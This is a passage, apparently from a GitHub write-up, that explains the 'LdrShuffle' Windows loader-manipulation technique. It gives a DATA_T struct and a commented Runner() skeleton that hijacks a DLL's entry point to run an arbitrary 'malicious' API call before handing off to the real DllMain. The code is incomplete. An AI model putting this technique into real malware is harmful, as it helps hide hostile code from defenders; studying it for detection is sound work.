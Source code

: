 ### DATA_T Structure

```c
typedef struct _DATA_T {
    // LDR manipulation
    ULONG_PTR runner;            // Address of Runner() function
    ULONG_PTR bakOriginalBase;   // Backup of OriginalBase
    ULONG_PTR bakEntryPoint;     // Backup of original EntryPoint
    HANDLE event;                // Synchronization event

    // Function call setup
    ULONG_PTR ret;               // Return value storage
    DWORD createThread;          // Run in new thread? (for wininet/winhttp)
    ULONG_PTR function;          // API function to call
    DWORD dwArgs;                // Number of arguments
    ULONG_PTR args[MAX_ARGS];    // Arguments array
} DATA_T;
```

### Runner() Function - The Heart of LdrShuffle

```c
VOID Runner(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved) {
    // Windows thinks it's calling DllMain(), but it's actually calling us!

    // 1. Get our DATA_T structure (contains all our setup)
    PDATA_T pDataT = g_pDataT;

    // 2. Restore original EntryPoint
    //    - Find _LDR_DATA_TABLE_ENTRY matching hinstDLL
    //    - Set EntryPoint = bakEntryPoint
    //    - Set OriginalBase = bakOriginalBase
    RestoreLdr(hinstDLL, pDataT);

    // 3. Execute our malicious API call
    //    - Use function pointer from pDataT->function
    //    - Pass arguments from pDataT->args[]
    //    - Store return value in pDataT->ret
    if (pDataT->createThread) {
        CreateThread(NULL, 0, RunInThread, pDataT, 0, NULL);
    } else {
        pDataT->ret = ((APICALL_4)pDataT->function)(args[0], args[1], args[2], args[3]);
    }

    // 4. Call original DllMain (proxy the call)
    //    - This ensures normal DLL behavior
    ((DLLMAIN)bakEntryPoint)(hinstDLL, fdwReason, lpvReserved);
}
```

## Callstack Analysis

